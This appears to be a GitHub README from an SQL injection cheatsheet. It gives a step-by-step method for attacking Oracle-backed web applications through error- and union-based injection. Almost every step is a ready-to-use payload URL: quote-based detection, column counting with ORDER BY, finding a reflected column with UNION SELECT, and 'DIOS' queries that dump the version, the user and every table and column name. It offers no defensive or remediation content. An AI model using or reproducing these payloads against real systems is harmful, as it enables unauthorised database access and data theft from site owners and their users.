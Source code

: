 

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Oracle%20-%20Error%20Union%5CBased%20SQLi#oracle-errorunion-based-sql-injection-cheatsheet)

## Detecting the vulnerability

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Oracle%20-%20Error%20Union%5CBased%20SQLi#detecting-the-vulnerability)

The most common way to detect a SQLi vulnerability, is by inserting a **'** in the end of GET/POST parameter value:  
`http://domain.com/index.php?id=1'`

If vulnerable, the website might show an SQL syntax error. This is a good sign that you are dealing with **Error-based SQL injection**: [![error_based_sql_vulnerability](https://camo.githubusercontent.com/2da6788be47226f488a9bc389b25140eb9f450cdb0b34ca4582c51e30224e6b8/68747470733a2f2f692e696d6775722e636f6d2f6c6e55736c4d4c2e6a7067)](https://camo.githubusercontent.com/2da6788be47226f488a9bc389b25140eb9f450cdb0b34ca4582c51e30224e6b8/68747470733a2f2f692e696d6775722e636f6d2f6c6e55736c4d4c2e6a7067)

Sometimes no error pops up, but if your naked-eye is somehow trained and experienced, you might see visual differences on the website response. Content-Length of the response might change (website might not fully load up). This is a good sign of **Union-based or Blind-based SQL Injection**.

## Find the number of columns using 'ORDER BY' query

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Oracle%20-%20Error%20Union%5CBased%20SQLi#find-the-number-of-columns-using-order-by-query)

Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY.

`http://domain.com/index.php?id=1' order by 1-- -`

This query musn't show up error, the website MUST load successfully, since there is no lower number than 1. If the error still persists, try removing the **'** since it breaks the SQL query: `http://domain.com/index.php?id=1 order by 1-- -`

Now it is time to find the correct number of columns. Now let's use the payload that worked, and try increasing the number by 1, untill an error shows up:

`http://domain.com/index.php?id=1 order by 1-- -` no error  
`http://domain.com/index.php?id=1 order by 2-- -` no error  
`http://domain.com/index.php?id=1 order by 3-- -` no error  
`http://domain.com/index.php?id=1 order by 4-- -` no error  
`http://domain.com/index.php?id=1 order by 5-- -` no error  
`http://domain.com/index.php?id=1 order by 6-- -` no error  
`http://domain.com/index.php?id=1 order by 7-- -` no error  
`http://domain.com/index.php?id=1 order by 8-- -` error

This means there are only 7 columns. Now we have to find which one of these 7 columns have information.

## Find the vulnerable column where information are stored using 'UNION SELECT' query

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Oracle%20-%20Error%20Union%5CBased%20SQLi#find-the-vulnerable-column-where-information-are-stored-using-union-select-query)

Using a simple query, we determine which of the 7 columns reflect our input using. In **UNION SELECT** queries, you have to put **null** as many times as we found the number on **ORDER BY** (this case: 7).

`http://domain.com/index.php?id=1' Union Select null, null, null, null, null, null, null from dual-- -`

If the website loads up successfully (no error must be displayed), it means that we are using the right syntax (without breaking the vulnerable query used by the website).

Great, let's find which column is reflecting data. To do that, we have to replace each **null** by integer surrounded by **'**. We have to replace each **null** one by one untill a number is being reflected on the website. For example:

`http://domain.com/index.php?id=1' Union Select '1', null, null, null, null, null, null from dual-- -` not reflecting  
`http://domain.com/index.php?id=1' Union Select '1', '2', null, null, null, null, null from dual-- -` not reflecting  
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', null, null, null, null from dual-- -` not reflecting  
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', null, null, null from dual-- -` not reflecting  
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', '5', null, null from dual-- -` number 5 is being displayed on the website.

We found that the 5th column is reflecting our input. This will be where our DIOS payload or dumping query will be inserted into.

## Dumping data

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Oracle%20-%20Error%20Union%5CBased%20SQLi#dumping-data)

Some really basic queries to use for dumping the user and the Oracle version:

```sql
user
(select banner from v$version where rownum=1)
```

`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', (select banner from v$version where rownum=1), null, null from dual-- -`

Use **||** if you want to include more than 1 query while dumping:  
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', user || '<u>You can also insert HTML code</u>'||(select banner from v$version where rownum=1), null, null from dual-- -`

Retrieving the database name:

```sql
(select sys.database_name from dual)
(SELECT instance_name FROM V$INSTANCE)
SYS.DATABASE_NAME
```

Dumping the whole database with DIOS

For Oracle 11g or older you can use **wm_concat** function:

```sql
(select wm_concat('<li>'||table_name||':'||column_name)from(select rownum as rnum, table_name, column_name from all_tab_columns order by table_name desc) shell where rnum<120)
```

For Oracle version newer than 11g, **listagg** function is used instead:

```sql
(select listagg('<li>'||table_name||':'||column_name)from(select rownum as rnum,table_name,column_name from all_tab_columns order by table_name desc) shell where rnum<120)
```

```sql
(select LISTAGG(table_name,'<li>') within group (ORDER BY table_name) from all_tables)
```

The following query shows the inserted DIOS into the 5th (and vulnerable) column as a reference:  
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', (select listagg('<li>'||table_name||':'||column_name)from(select rownum as rnum,table_name,column_name from all_tab_columns order by table_name desc) shell where rnum<120), null, null from dual-- -`

If everything goes as it should be, all the tables and columns should be displayed on the website.